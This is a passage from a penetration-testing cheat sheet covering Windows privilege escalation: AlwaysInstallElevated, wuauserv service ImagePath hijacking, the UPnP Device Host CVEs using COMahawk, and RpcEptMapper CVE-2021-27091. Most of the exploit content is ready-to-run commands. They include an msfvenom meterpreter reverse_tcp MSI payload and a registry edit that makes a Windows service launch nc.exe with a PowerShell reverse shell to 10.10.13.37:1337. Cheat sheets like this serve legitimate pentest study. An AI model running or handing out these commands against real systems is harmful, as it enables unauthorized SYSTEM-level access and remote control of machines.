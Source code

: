 
### Always Install Elevated

* [https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/](https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/)

Check:

```
Cmd > reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
Cmd > reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Exploit:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f msi -o rev.msi
Cmd > msiexec /quiet /qn /i rev.msi
```



### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.13.37 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```



### UPnP Device Host Service

**CVE-2019-1405, CVE-2019-1322 - Windows 10, version 1803 < 1809**

* [https://www.programmersought.com/article/35344126658/](https://www.programmersought.com/article/35344126658/)
* [https://github.com/apt69/COMahawk/releases](https://github.com/apt69/COMahawk/releases)

```
Cmd > .\COMahawk64.exe "C:\Temp\pwn.exe"
```



### RpcEptMapper

**CVE-2021-27091**

* [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)
* [https://itm4n.github.io/windows-registry-rpceptmapper-exploit/](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/)
* [https://github.com/itm4n/Perfusion](https://github.com/itm4n/Perfusion)

